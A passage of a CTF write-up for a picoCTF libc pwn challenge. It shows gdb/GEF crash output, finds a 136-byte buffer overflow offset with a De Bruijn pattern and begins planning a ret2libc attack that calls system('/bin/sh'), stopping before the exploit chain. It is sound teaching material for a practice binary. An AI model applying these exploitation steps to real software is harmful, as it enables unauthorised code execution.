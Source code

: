 ```
0x00007fffffffde48│+0x0000: "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa[...]"    ← $rsp
0x00007fffffffde50│+0x0008: "saaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaaya[...]"
0x00007fffffffde58│+0x0010: "taaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffde60│+0x0018: "uaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffde68│+0x0020: "vaaaaaaawaaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffde70│+0x0028: "waaaaaaaxaaaaaaayaaaaaaa"
0x00007fffffffde78│+0x0030: "xaaaaaaayaaaaaaa"
0x00007fffffffde80│+0x0038: "yaaaaaaa"
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400769 <do_stuff+145>   call   0x400540 <puts@plt>
     0x40076e <do_stuff+150>   nop
     0x40076f <do_stuff+151>   leave
 →   0x400770 <do_stuff+152>   ret
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x400770 in do_stuff (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400770 → do_stuff()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Now, to find the offset of the De Bruijn Sequence that is stored in $rsp, we simply run `pattern offset $rsp`, and get: 

```
gef➤  pattern offset $rsp
[+] Searching for '7261616161616161'/'6161616161616172' with period=8
[+] Found at offset 136 (little-endian search) likely
```

Voila! The number of 'A's we need to pad before our payload is 136. 

# Using libc for exploitation

Since there is no ret2win or ability to return to shellcode that we control (remember from checksec that NX is enabled), we have to use gadgets from libc to get the flag. For context, libc is the C library within which many C functions (e.g. printf, scanf, etc) reside, but inside there also exists a function called system which can execute a shell command with "/bin/sh" (run `man 3 system` on WSL for more information). 

Whenever the executable runs, it loads libc into memory. Using gdb, setting a breakpoint at main and running, we can use the commands `p system`,  `p puts`, etc, to see the addresses of those shells: 

```
gef➤  break main
Breakpoint 1 at 0x400775
gef➤  r
Starting program: /mnt/d/CTFs/picoCTF/Pwn/Here's a LIBC/vuln

Breakpoint 1, 0x0000000000400775 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0000000000400771  →  <main+0> push rbp
$rbx   : 0x0
$rcx   : 0x00000000004008b0  →  <__libc_csu_init+0> push r15
$rdx   : 0x00007fffffffdfe8  →  0x00007fffffffe276  →  "SHELL=/bin/bash"
$rsp   : 0x00007fffffffdef0  →  0x00000000004008b0  →  <__libc_csu_init+0> push r15
$rbp   : 0x00007fffffffdef0  →  0x00000000004008b0  →  <__libc_csu_init+0> push r15
$rsi   : 0x00007fffffffdfd8  →  0x00007fffffffe24b  →  "/mnt/d/CTFs/picoCTF/Pwn/Here's a LIBC/vuln"
$rdi   : 0x1
```